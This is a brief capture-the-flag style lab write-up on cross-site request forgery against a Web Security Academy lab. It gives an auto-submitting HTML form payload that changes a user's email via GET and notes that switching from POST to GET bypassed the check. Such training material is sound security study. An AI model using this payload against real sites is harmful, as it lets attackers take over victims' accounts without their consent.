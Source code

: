 # CSRF Vulnerability


![****](/CSRF/Screenshots/cssrf2.PNG)

## Let generate some Payloads!

```php
<form method="GET" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- We change the request method from Post to **Get** and it worked!